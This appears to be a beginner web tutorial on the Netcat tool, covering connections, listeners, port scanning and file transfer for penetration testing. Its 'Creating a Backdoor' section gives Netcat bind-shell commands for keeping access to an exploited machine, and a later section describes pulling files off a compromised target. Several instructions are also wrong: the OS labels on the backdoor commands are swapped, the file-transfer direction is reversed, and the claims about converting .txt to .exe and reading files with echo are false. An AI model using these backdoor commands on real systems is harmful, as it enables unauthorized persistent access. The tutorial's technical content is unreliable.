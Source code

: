 ### Introduction to Netcat
`Netcat` is a network analysis tool developed to be used by security specialists and also hackers to analyze a network in traffic.
It is considered a `Swiss-army` knife in information technology.

At its early stages, netcat was developed to open up UDP/TCP connections between two machines from any port you desire.
Over time, it has been improved and now it is used for port scanning, port forwarding, file transfer, and also remote administration. This article will help us understand how Netcat performs these roles.

Netcat can further be used as a back-end device that can be used or driven by other programs or scripts.
It is also a must-have tool for pen-tester since it is essential for network debugging and investigation.

#### Executing Commands on Netcat
Netcat is only available in the command-line interface. You will be able to access Netcat on the `Command Line` on Windows and `Bash Terminal` on Linux. Below is the common Netcat Syntax.

`nc [options][target_ip address][port]`

Let's now discuss some actions that can be executed via Netcat.

1. **Help**

For a start you might want to know the commands you will interact with within your Netcat journey.
* Run the `nc -help` or `nc -h` command to list all the commands available in Netcat as shown below.

![Help Command Output](/engineering-education/Introduction-to-Netcat/help.png)

2. **Connecting Server**

To achieve this, you will have to access a port where a particular service is running and execute the code with the syntax linking it with the Netcat commands. The syntax is as shown below.
* ` nc [IP Address] [Port Number]` - both for the target machine.

example: `nc 192.168.234.128 8080`

For our example above, we have connected the internet accessing service via port number 8080 with the IP address 192.168.234.128.

3. **Connecting 2 Machines**

To do this, we will have to set one device as the `Initiator` and the other device as the `listener`. For our case, we will use Kali Linux as the Initiator and the Windows Machine as the Listener.

**Creating Listener** - First, let us create the listening Machine which in our case is Windows 10. To successfully do so, run the following Netcat command.

`nc -lvp 4444`

From the above command:
* `l` - Setting up Listening Mode
* `v` - Setting Verbose
* `p` - Setting up Port Number.

**Creating Initiator** - Creating the Initiator is simpler as you will only be required to run the Ip address of the Listening machine followed by the port number. The syntax is as shown below.

`nc 192.168.234.128 8080`

4. **Creating a Backdoor**

After getting a Meterpreter shell back or successfully exploiting a device, you will want to maintain your access so you may come back to the target device at any time. That is where Netcat comes in. With Netcat, you can run a one-line command to achieve so. 

Creating a backdoor for a Linux and Windows OS target is different.

For the case of Windows: `nc -l -p 21 -e /bin/bash`

For Linux: `nc -l -p 21 -e hack.exe`

5. **Saving Output**

Information Gathering is one of the important fundamentals in Penetration testing to save the information gathered. To save the output from Netcat, we will use the parameter `-o` followed by the location to save the output as shown below.

`nc 192.168.234.128 8080 -v -o /Desktop/Output.txt`

#### Modes of running Netcat  
We have two common modes of running Netcat. 

1. **Client Mode/ Initiator Mode**
- As we have discussed earlier, the Client or Initiator Mode always initiates the connection with the listener. 

2. **Listener Mode**
- To set up the Listener, we will require the `Port` Number. The syntax will also contain the `listening` and `verbose` commands.

#### Uses of Netcat
1. **Port Scanning**

For every hacker or penetration tester, before performing any attack, you need to spot weak links or vulnerabilities in a target system. There are several ways to achieve this and one of them is `port scanning`.

Port scanning is the act of running a network analysis on a system to determine open or closed ports on a specific target machine. This can be done by specifying the IP address of the target machine and setting up some parameters as seen in the syntax below.
```
    $ nc -v -w2 -z [target_ip] 20-40
```
From the example above, the parameters are set to perform the following actions.

* `-v` **(Verbose)** -  To give detailed information about the port being scanned.
* `-z` - Prevents sending data to any TCP and this enables for fast scanning of ports.
* `-i` - It insets a delay between each port probe to limit scanning speed.

Even though Netcat can be used for Port Scanning, it is however not the top-ranked tool for port scanning. The most recommended tool is [NMAP](https://www.section.io/engineering-education/nmap-network-scanner/).


2. **Data/ File Transfer**

After successfully exploiting a target machine and you have control over it. You will need Netcat for the post-exploitation phase. This is where you remotely run commands on the target machine using your local machine. For some cases, you might want to transfer files or some data into the local machine which is mostly a Kali Linux machine since it is the recommended OS for Penetrating testing. To learn more on [Kali Linux](https://www.section.io/engineering-education/getting-started-with-kali-linux/) go through the article linked.

Let's now see how we can achieve that via Netcat.

**Example:**

Let us take a sample text named `test.txt` which in this case is in our targets device storage. To transfer the file into our local machine, run the Netcat command below on the target device either remotely or physically. This is to purposefully set up a listener on the target device.
```
    $ nc –l –p 21 >test.txt
```
From the above,

You can see that we have specified the port number 21 by preceding the `-p` command which is used to initialize the port number.

We have set up the machine to the listening mode by using the `-l` command.

After successfully setting up a listener, now it's time to set up an Initiator on our local machine.
We can do so by running the following command.
```
    $ nc destination 21 <test.txt
```

As you have noted by now, we have set up client mode to connect to any listener open on port 21. We have to state the `destination` of our initiator by providing the listening port number and the name of the file to transfer.

To show the output of what is contained in the File, run the `type` command on Windows and the `echo` command on Kali Linux.
```
    $ type test.txt
```
For Kali Linux, you will have to convert the .txt file to executable format `.exe` since Kali Linux cannot run Windows files with the `.txt` extension.
```
    $ echo test.exe
```

#### Conclusion
From what we have learned, we can agree that Netcat is a must-have tool for a penetration tester. It is easy to learn and its tools allow for the execution of a wide range of actions as mentioned in the tutorial and therefore recommended for Penetration Testing.

#### Summary
In this article, we have gone through the following 
1. Introduction to Netcat.
2. Executiong commands.
2. Modes of running Netcat.
3. General Netcat commands.
4. Uses of Netcat.
